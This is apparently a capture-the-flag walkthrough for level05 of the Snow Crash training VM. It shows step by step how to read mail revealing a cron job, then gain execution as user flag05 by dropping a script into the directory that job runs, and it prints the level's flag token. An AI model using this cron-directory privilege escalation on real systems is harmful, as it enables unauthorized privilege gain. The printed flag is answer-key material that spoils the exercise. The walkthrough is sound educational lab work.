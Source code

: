# 🧠 Snow Crash – Level05 Walkthrough

## 🧩 Challenge Summary

After logging in as `level05`, the system immediately shows:  
> **You have new mail.**

This mail hints at an automated task (cron job) run as a different user (`flag05`). The objective is to **leverage this scheduled task** to execute code as `flag05` and retrieve the flag using `getflag`.

---

## 🔍 Step-by-step Exploitation

### 1. 📬 Check for the mail
Right after login, we noticed this line:
```bash
You have new mail.
```

We inspected the environment:
```bash
export
```

And found:
```bash
declare -x MAIL="/var/mail/level05"
```

So we checked the mail file:
```bash
cat /var/mail/level05
```

Output:
```cron
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

> 🔁 This tells us a **cron job** runs every 2 minutes as user `flag05`, executing a script located at `/usr/sbin/openarenaserver`.

---

### 2. 🧠 Understand the script logic

```bash
cat /usr/sbin/openarenaserver
```

```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

#### 🔎 What it does:
- Iterates over all files in `/opt/openarenaserver/`
- For each file:
  - Sets a **CPU time limit** of 5 seconds using `ulimit -t 5`
  - Executes it with **debug output** using `bash -x`
  - Deletes the file afterward with `rm -f`

> 🧨 So any script we drop into `/opt/openarenaserver/` will be executed as `flag05`, but **it will be deleted immediately**, so we can’t just print output to the terminal.

---

### 3. 🛠 Exploit the cron job

Create a script that dumps the flag to a readable file:

```bash
echo -e '#!/bin/sh\ngetflag > /tmp/flag05.txt' > /opt/openarenaserver/pwn.sh
```

Make it executable:
```bash
chmod +x /opt/openarenaserver/pwn.sh
```

✅ After waiting a couple of minutes (cron runs every 2 minutes), check:
```bash
cat /tmp/flag05.txt
```

### 🎉 Flag
```bash
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

---

## ✅ Conclusion

By analyzing the mail and understanding how the cron job works, we were able to inject a script that ran as `flag05`. Since the output wasn't visible due to script deletion, we redirected it to `/tmp`, which allowed us to capture and read the flag securely.
